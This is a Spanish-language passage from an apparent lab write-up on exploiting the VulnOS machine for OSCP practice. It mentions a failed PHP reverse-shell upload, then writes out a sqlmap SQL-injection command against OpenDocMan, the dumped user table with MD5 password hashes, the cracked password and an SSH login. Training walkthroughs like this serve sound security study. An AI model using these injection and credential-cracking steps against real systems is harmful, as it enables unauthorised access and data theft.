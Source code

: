 El siguiente paso fue editar el password del usuario llamado **WebMin** para poder subir archivos a la aplicación sin restricciones:


![img]({{ '/assets/images/Vulnos/opendocman_05.png' | relative_url }}){: .center-image }*(Password 12345)*

Después de eso se puede acceder con el usuario **WebMin**. La idea era subir el tan conocido shell reverso en php al sitio y se puede hacer pero al no lograr ejecutarlo del lado del servidor está vía de ataque quedó muerta.

A ver la otra vulnerabilidad...

---

La otra vulnerabbilidad consiste en la capacidad de ejecutar un **SQLi** a la página, de esta forma se logra conseguir el password verdadero del usuario **Webmin** que es el mismo que a fin de cuentas nos permite loguearnos a través del protocolo **SSH**.

Para realizar el ataque de SLQi se utilza la herramienta **SQLMap**, cabe aclarar que **durante el exámen para ser **OSCP** no está permitido usar esta herramienta...**

---

>**``sqlmap -u "http://10.0.0.123/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user" -D jabcd0cs -T odm_user --dump``**

---

```console
Database: jabcd0cs
Table: odm_user
[2 entries]
+----+--------------------+-------------+----------+----------------------------------+-----------+------------+------------+---------------+
| id | Email              | phone       | username | password                         | last_name | first_name | department | pw_reset_code |
+----+--------------------+-------------+----------+----------------------------------+-----------+------------+------------+---------------+
| 1  | webmin@example.com | 5555551212  | webmin   | b78aae356709f8c31118ea613980954b | min       | web        | 2          | <blank>       |
| 2  | guest@example.com  | 555 5555555 | guest    | 084e0343a0486ff05530df6c705c8bb4 | guest     | guest      | 2          | NULL          |
+----+--------------------+-------------+----------+----------------------------------+-----------+------------+------------+---------------+
```
Una búsqueda rápida del hash en md5 del password del usuario admin arroja que el verdadero password era **webmin1980**

---

### **Protocolo SSH**

---

>**``ssh webmin@10.0.0.123``**

---